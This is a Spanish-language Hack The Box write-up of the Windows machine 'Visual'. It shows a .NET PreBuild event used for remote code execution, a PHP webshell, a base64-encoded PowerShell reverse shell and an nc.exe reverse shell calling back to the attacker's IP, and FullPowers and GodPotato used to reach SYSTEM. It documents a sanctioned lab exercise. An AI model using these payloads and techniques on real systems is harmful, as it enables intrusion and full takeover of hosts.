



+++
author = "Andrés Del Cerro"
title = "Hack The Box: Visual Writeup | Medium"
date = "2024-08-26"
description = ""
tags = [
    "HackTheBox",
    "Visual",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "HTTP Enumeration",
    "Gitea",
    "Docker",
    "Weaponizing .NET Project",
    "Abusing PreBuild",
    "User Pivoting",
    "Recovering Privileges",
    "FullPowers.exe",
    "Privilege Escalation",
    "GodPotato.exe",
    "Abusing SeImpersonatePrivilege"
]

+++

# Hack The Box: Visual Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Visual"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
rustscan -a 10.129.229.122 --ulimit 5000 -g
10.129.229.122 -> [80]
```

```shell
nmap -p80 10.129.229.122 -sCV -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 01:17 CEST
Nmap scan report for 10.129.229.122
Host is up (0.038s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-title: Visual - Revolutionizing Visual Studio Builds
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds
```
# UDP Enumeration

```shell
sudo nmap --top-ports 1500 10.129.229.122 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 01:17 CEST
Nmap scan report for 10.129.229.122
Host is up.
All 1500 scanned ports on 10.129.229.122 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
```

El único punto de entrada es el puerto 80/TCP.

# HTTP Enumeration
`whatweb` no nos reporta nada relevante
```shell
ttp://10.129.229.122 [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17], IP[10.129.229.122], OpenSSL[1.1.1t], PHP[8.1.17], Script, Title[Visual - Revolutionizing Visual Studio Builds], X-Powered-By[PHP/8.1.17]
```

El sitio web se ve así.


Nos pide que adjuntemos un repositorio git que contenga un proyecto en C# / .NET 6.0 y este compilará la solución (.sln) y nos devolverá los DLL's.

Gracias a que ya he trabajado con proyectos de Visual Studio anteriormente se que existe una opción al compilar el proyecto que es la opción de `PreBuild`, este opción permite ejecutar un comando a nivel de sistema antes de compilar el proyecto.

El problema aquí es que necesito hostear el repositorio git de alguna forma y debido a que las máquinas de HackTheBox no tienen conexión a Internet tengo que buscarme la vida.

## Gitea Instance with Docker
Voy a crear una instancia de gitea con Docker ya que es lo que mas fácil veo.

```shell
sudo docker pull gitea/gitea:latest
Emulate Docker CLI using podman. Create /etc/containers/nodocker to quiet msg.
Resolving "gitea/gitea" using unqualified-search registries (/etc/containers/registries.conf)
Trying to pull docker.io/gitea/gitea:latest...
Getting image source signatures
Copying blob a6f93238fbf9 done  
Copying blob 2aebd935eab5 done  
Copying blob 7f63cdf32c7d done  
Copying blob 823f22cebab2 done  
Copying blob 7ba71f787c2a done  
Copying blob ec99f8b99825 done  
Copying blob 09506ba9f9c2 done  
Copying config b3de729701 done  
Writing manifest to image destination
Storing signatures
b3de72970178139c31eb972537355c815095a8550cc1ed21944bcc5d58b66e87
```

Ahora simplemente establecemos el puerto 3000 local para este contenedor Docker.

```shell
docker run -p 3000:3000 gitea/gitea
Emulate Docker CLI using podman. Create /etc/containers/nodocker to quiet msg.
Resolving "gitea/gitea" using unqualified-search registries (/etc/containers/registries.conf)
Trying to pull docker.io/gitea/gitea:latest...
Getting image source signatures
Copying blob 2aebd935eab5 done  
Copying blob a6f93238fbf9 done  
Copying blob ec99f8b99825 done  
Copying blob 823f22cebab2 done  
Copying blob 7f63cdf32c7d done  
Copying blob 7ba71f787c2a done  
Copying blob 09506ba9f9c2 done  
Copying config b3de729701 done  
Writing manifest to image destination
Storing signatures
Generating /data/ssh/ssh_host_ed25519_key...
Generating /data/ssh/ssh_host_rsa_key...
Generating /data/ssh/ssh_host_ecdsa_key...
Server listening on :: port 22.
Server listening on 0.0.0.0 port 22.
2024/08/25 23:28:31 cmd/web.go:242:runWeb() [I] Starting Gitea on PID: 12
2024/08/25 23:28:31 cmd/web.go:111:showWebStartupMessage() [I] Gitea version: 1.22.1 built with GNU Make 4.4.1, go1.22.5 : bindata, timetzdata, sqlite, sqlite_unlock_notify
2024/08/25 23:28:31 cmd/web.go:112:showWebStartupMessage() [I] * RunMode: prod
2024/08/25 23:28:31 cmd/web.go:113:showWebStartupMessage() [I] * AppPath: /usr/local/bin/gitea
2024/08/25 23:28:31 cmd/web.go:114:showWebStartupMessage() [I] * WorkPath: /data/gitea
2024/08/25 23:28:31 cmd/web.go:115:showWebStartupMessage() [I] * CustomPath: /data/gitea
2024/08/25 23:28:31 cmd/web.go:116:showWebStartupMessage() [I] * ConfigFile: /data/gitea/conf/app.ini
2024/08/25 23:28:31 cmd/web.go:117:showWebStartupMessage() [I] Prepare to run install page
2024/08/25 23:28:32 cmd/web.go:304:listen() [I] Listen: http://0.0.0.0:3000
2024/08/25 23:28:32 cmd/web.go:308:listen() [I] AppURL(ROOT_URL): http://localhost:3000/
2024/08/25 23:28:32 ...s/graceful/server.go:50:NewServer() [I] Starting new Web server: tcp:0.0.0.0:3000 on PID: 12
```

Y ya tenemos en el puerto `3000/TCP` nuestra instancia de Gitea.


## Weaponizing .NET Project -> Foothold

Creamos un proyecto con la plantilla `Aplicación de consola`

Le asignamos un nombre..


Seleccionamos la versión .NET que tengamos.


En `Proyecto -> Evil Propiedades`


Podemos cambiar el framework a .NET 6.0 y nos saldrá la opción de instalar la versión 6.0 (si no la tenemos como es mi caso)


Y en `Compilación -> Salida -> Evento anterior a la compilación` podemos introducir un comando que se ejecutará a nivel de sistema cuando se compile este proyecto.


Vamos a probar a mandarnos un ping.


Si ahora intentamos compilar la solución vemos lo siguiente.


Así que solo falta crear el repositorio en gitea que albergue este proyecto.

Creamos el proyecto en gitea.


En local creamos el repositorio y lo subimos con `git` al repositorio remoto creado en Gitea
```shell
git init
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint: 	git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint: 	git branch -m <name>
Initialized empty Git repository in /home/pointedsec/Desktop/visual/content/evil/Evil/.git/
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git add *
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git commit -m "first commit"
[master (root-commit) ae72e16] first commit
 Committer: pointedsec <pointedsec@localhost.localdomain>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly:

    git config --global user.name "Your Name"
    git config --global user.email you@example.com

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 21 files changed, 307 insertions(+)
 create mode 100755 Evil.sln
 create mode 100755 Evil/Evil.csproj
 create mode 100755 Evil/Program.cs
 create mode 100755 Evil/obj/Debug/net6.0/.NETCoreApp,Version=v6.0.AssemblyAttributes.cs
 create mode 100755 Evil/obj/Debug/net6.0/Evil.AssemblyInfo.cs
 create mode 100755 Evil/obj/Debug/net6.0/Evil.AssemblyInfoInputs.cache
 create mode 100755 Evil/obj/Debug/net6.0/Evil.GeneratedMSBuildEditorConfig.editorconfig
 create mode 100755 Evil/obj/Debug/net6.0/Evil.GlobalUsings.g.cs
 create mode 100755 Evil/obj/Debug/net6.0/Evil.assets.cache
 create mode 100755 Evil/obj/Debug/net6.0/Evil.csproj.FileListAbsolute.txt
 create mode 100755 Evil/obj/Debug/net8.0/.NETCoreApp,Version=v8.0.AssemblyAttributes.cs
 create mode 100755 Evil/obj/Debug/net8.0/Evil.AssemblyInfo.cs
 create mode 100755 Evil/obj/Debug/net8.0/Evil.AssemblyInfoInputs.cache
 create mode 100755 Evil/obj/Debug/net8.0/Evil.GeneratedMSBuildEditorConfig.editorconfig
 create mode 100755 Evil/obj/Debug/net8.0/Evil.GlobalUsings.g.cs
 create mode 100755 Evil/obj/Debug/net8.0/Evil.assets.cache
 create mode 100755 Evil/obj/Evil.csproj.nuget.dgspec.json
 create mode 100755 Evil/obj/Evil.csproj.nuget.g.props
 create mode 100755 Evil/obj/Evil.csproj.nuget.g.targets
 create mode 100755 Evil/obj/project.assets.json
 create mode 100755 Evil/obj/project.nuget.cache
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git remote add origin http://127.0.0.1:3000/pointedsec/evil.git
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git push origin main
error: src refspec main does not match any
error: failed to push some refs to 'http://127.0.0.1:3000/pointedsec/evil.git'
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git push -u origin main
error: src refspec main does not match any
error: failed to push some refs to 'http://127.0.0.1:3000/pointedsec/evil.git'
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git checkout -b main
Switched to a new branch 'main'
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git push -u origin main
Username for 'http://127.0.0.1:3000': pointedsec
Password for 'http://pointedsec@127.0.0.1:3000': 
Enumerating objects: 25, done.
Counting objects: 100% (25/25), done.
Delta compression using up to 4 threads
Compressing objects: 100% (24/24), done.
Writing objects: 100% (25/25), 4.81 KiB | 1.60 MiB/s, done.
Total 25 (delta 4), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://127.0.0.1:3000/pointedsec/evil.git
 * [new branch]      main -> main
branch 'main' set up to track 'origin/main'.
```

Y aquí tenemos el repositorio.
Ahora si introducimos nuestro repositorio para que sea compilado y con `tcpdump` nos ponemos en escucha de trazas ICMP por la interfaz `tun0` 


```shell
sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:53:22.963734 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 1, length 40
01:53:22.963767 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 1, length 40
01:53:23.980086 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 2, length 40
01:53:23.980106 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 2, length 40
01:53:24.995042 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 3, length 40
01:53:24.995071 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 3, length 40
01:53:26.010710 IP 10.129.229.122 > 10.10.14.125: ICMP echo request, id 1, seq 4, length 40
01:53:26.010730 IP 10.10.14.125 > 10.129.229.122: ICMP echo reply, id 1, seq 4, length 40
```

¡Tenemos ejecución remota de comandos!

En el archivo `/Evil/Evil.csproj` es donde se define el evento `PreBuild` así que podemos directamente cambiar el comando a ejecutar desde aquí.


Nos podemos copiar el payload para enviarnos una reverse shell de [revshells.com](https://www.revshells.com/)


Hacemos el commit.
```shell
git add *
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/visual/content/evil/Evil]
└──╼ [★]$ git commit -m "Updated Prebuild"
```

Subimos el commit al gitea.
```shell
git push origin main
Username for 'http://127.0.0.1:3000': pointedsec
Password for 'http://pointedsec@127.0.0.1:3000': 
Enumerating objects: 7, done.
Counting objects: 100% (7/7), done.
Delta compression using up to 4 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (4/4), 1.17 KiB | 1.17 MiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: . Processing 1 references
remote: Processed 1 references in total
To http://127.0.0.1:3000/pointedsec/evil.git
   ae72e16..cb5c553  main -> main
```

Podemos comprobar que se ha actualizado correctamente.


Ahora nos ponemos en escucha con `netcat` por el puerto 443 y enviamos otra solicitud para compilar nuestro proyecto albergado en el repositorio.

Y conseguimos acceso a la máquina víctima como el usuario `enox`.
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49675

PS C:\Windows\Temp\4a1ccfedd9e2a8a35f137a5a53ec81\Evil> whoami
visual\enox
```

Podemos leer la flag de usuario.
```shell
PS C:\Users\enox\Desktop> type user.txt
ca15b45db969cf...
```

# User Pivoting
Después de enumerar la máquina tampoco encuentro cosas relevantes.

Pero después de un rato encontramos que tenemos permiso de escritura en el directorio donde se alberga el sitio web.

```shell
PS C:\xampp> icacls htdocs
htdocs Everyone:(OI)(CI)(F)
       Everyone:(I)(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Administrators:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       BUILTIN\Users:(I)(CI)(AD)
       BUILTIN\Users:(I)(CI)(WD)
       CREATOR OWNER:(I)(OI)(CI)(IO)(F)
```

Pensaba que el usuario que hosteaba este servicio web era el mismo usuario, es decir, `enox` , y para asegurarme persistencia creé una simple webshell en PHP.

```php
<?php
//pointed.php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

```shell
PS C:\xampp\htdocs> iwr http://10.10.14.125:8081/pointed.php -o pointed.php
```

Y me di cuenta de que la cuenta de usuario no era `enox` si no `nt authority\local service`


Muy de potra todo pero nos mandamos la revshell...


Y ganamos acceso como este usuario.
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49677

PS C:\xampp\htdocs> whoami
nt authority\local service
```

# Privilege Escalation

## Recovering Privileges
De las primeras cosas que siempre pruebo es a listar los privilegios de esta cuenta, y siendo una cuenta del sistema me esperaba que tuviera algún privilegio especial pero no era el caso.

```shell
PS C:\xampp\htdocs> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Según Microsoft esta cuenta debería de tener mas privilegios de los que tenemos...
https://learn.microsoft.com/en-us/windows/win32/services/localservice-account



Echando un vistazo a [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation) me encontré lo siguiente.


Que me llevaba a este repositorio de Github llamado [FullPowers](https://github.com/itm4n/FullPowers)

Según el itm4n, en windows, cuando un servicio es ejecutado como `local service` o `network service` están configurados por defecto para tener una serie de privilegios muy bajos. 

Pero si creamos una tarea programada el nuevo proceso creado por el servicio de programación de tareas tiene todos los privilegios predeterminados y con alguna manipulación de tokens mas estos privilegios obtenidos podemos generar un proceso con todos los privilegios faltantes.

> On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to **run with a restricted set of privileges**. Therefore, even if the service is compromised, **you won't get the golden impersonation privileges** and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you **create a scheduled task**, the new process created by the **Task Scheduler Service** has **all the default privileges** of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

Nos descargamos este binario
```shell
wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
```

Y lo servimos por el puerto 8081.
```shell
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

Ahora nos lo descargamos de la máquina víctima
```shell
PS C:\Windows\Temp> iwr http://10.10.14.125:8081/FullPowers.exe -o FullPowers.exe
```

Por alguna razón no funciona.
```shell
PS C:\Windows\Temp> .\FullPowers.exe 
[+] Started dummy thread with id 5008
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.4851]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
PS C:\Windows\Temp> whoami
nt authority\local service
PS C:\Windows\Temp> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

Vemos que podemos ejecutar un comando, vamos a probar a ejecutar un `whoami /priv`


Y ahora si que tenemos todos los permisos por alguna razón...
```shell
PS C:\Windows\Temp> .\FullPowers.exe -c "whoami /priv"
[+] Started dummy thread with id 1412
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

Para trabajar mas cómodamente me voy a mandar una consola a través de la herramienta, por alguna razón esto si funciona aunque no entiendo bien el porque.
```shell
PS C:\Windows\Temp> .\FullPowers.exe -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAyADUAIgAsADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="
```

```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49680

PS C:\Windows\system32> whoami 
nt authority\local service
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

Y ahora vemos que tenemos el permiso `SeImpersonatePrivilege` así que es hora de sacar las patatas..

Aunque vemos que la versión de sistema operativo es `Microsoft Windows Server 2019 Standard` y JuicyPotato no funciona para esta versión de Windows.

Pero podemos utilizar otros exploits como [RoguePotato](https://github.com/antonioCoco/RoguePotato) para poder escalar privilegios.

Pero existe un problema, y es que para poder explotar el RoguePotato se necesita que esté el SMB abierto y sabemos que solo está abierto el puerto 80.

Después de probar algunos exploits me funcionó [GodPotato](https://github.com/BeichenDream/GodPotato)

La descripción del exploit es la siguiente:

> Basado en la historia de la escalada de privilegios con la serie de herramientas "Potato" durante 6 años, desde los inicios de RottenPotato hasta el final de JuicyPotatoNG, he descubierto una nueva tecnología al investigar DCOM, que permite la escalada de privilegios en Windows 2012 - Windows 2022, siempre que tengas el permiso "ImpersonatePrivilege". Con este permiso, te conviertes en "NT AUTHORITY\SYSTEM". Generalmente, los servicios web y de bases de datos tienen permisos de "ImpersonatePrivilege".


> La escalada de privilegios con Potato se usa habitualmente cuando obtenemos privilegios en servicios WEB o de bases de datos. Podemos elevar un usuario de servicio con bajos privilegios a privilegios de "NT AUTHORITY\SYSTEM". Sin embargo, las versiones anteriores de Potato no podían ejecutarse en los sistemas Windows más recientes. Durante mi investigación sobre DCOM, encontré un nuevo método para realizar la escalada de privilegios. Existen algunas vulnerabilidades en rpcss al manejar oxid, y rpcss es un servicio que debe estar habilitado por el sistema, por lo que puede ejecutarse en casi cualquier sistema operativo Windows. A esta nueva técnica la llamé GodPotato.

Nos descargamos el exploit en nuestra máquina
```shell
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe
```

Lo servimos por el puerto 8081 y lo descargamos en la máquina víctima.
```shell
PS C:\Windows\temp\work> iwr http://10.10.14.125:8081/GodPotato-NET4.exe -o GodPotato-NET4.exe
```

Y al ejecutar el exploit vemos que nos devuelve el output como `nt authority\system`
```shell
PS C:\Windows\temp\work> .\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140716660883456
[*] DispatchTable: 0x140716663189616
[*] UseProtseqFunction: 0x140716662565792
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\37b30828-e6cb-4904-8b08-41d7c6373e1a\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000d402-11e8-ffff-15ae-5b45b6d77182
[*] DCOM obj OXID: 0xd0663253fc3d960b
[*] DCOM obj OID: 0x5a3370c25301eb32
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 872 Token:0x816  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1432
nt authority\system
```

Nos podemos mandar una revshell con `netcat`
```shell
PS C:\Windows\temp\work> .\GodPotato-NET4.exe -cmd "C:\ProgramData\nc.exe 10.10.14.125 443 -e cmd.exe"
```

Y ganamos acceso como `nt authority\system`
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.122] 49695
Microsoft Windows [Version 10.0.17763.4840]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\temp\work>whoami
whoami
nt authority\system
```

Podemos leer la flag de `root`
```shell
C:\Users\Administrator\Desktop>type root.txt
type root.txt
935410c7ad83....
```

¡Y ya estaría!

Happy Hacking! 🚀